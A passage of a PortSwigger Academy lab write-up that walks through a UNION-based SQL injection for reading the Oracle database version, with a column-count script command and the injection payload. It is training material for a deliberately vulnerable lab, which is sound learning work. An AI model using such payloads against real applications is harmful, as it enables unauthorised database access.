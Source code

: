 # PortSwigger Academy- SQL Injection

- Author: [Mateusz Głuchowski](https://github.com/hue1337)
- Site: [PortSwigger Academy](https://portswigger.net/)

# Lab: SQL injection attack, querying the database type and version on Oracle



## Steps:
1. Determining amount of columns by using our script `columns_amount.py`.

    ```bash
    python3 columns_amount.py --url https://0aaa00a503c074e683b2504f00b50012.web-security-academy.net/ --param category --amount 6
    ```

2. Looking into Oracle DB documentation to find the way how to determine the version.

    ```sql
    SQL>
    SQL>
    SQL> select banner from v$version;

    BANNER
    ----------------------------------------------------------------
    Oracle Database 10g Express Edition Release 10.2.0.1.0 - Product
    PL/SQL Release 10.2.0.1.0 - Production
    CORE    10.2.0.1.0      Production
    TNS for 32-bit Windows: Version 10.2.0.1.0 - Production
    NLSRTL Version 10.2.0.1.0 - Production

    SQL>

    ```

3. Preparing the payload:

    ```sql
    ' UNION SELECT banner, null FROM v$version -- -
    ```

4. Sending the request and completing the lab.


<div style="page-break-after: always;"></div>

# Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

## Steps:
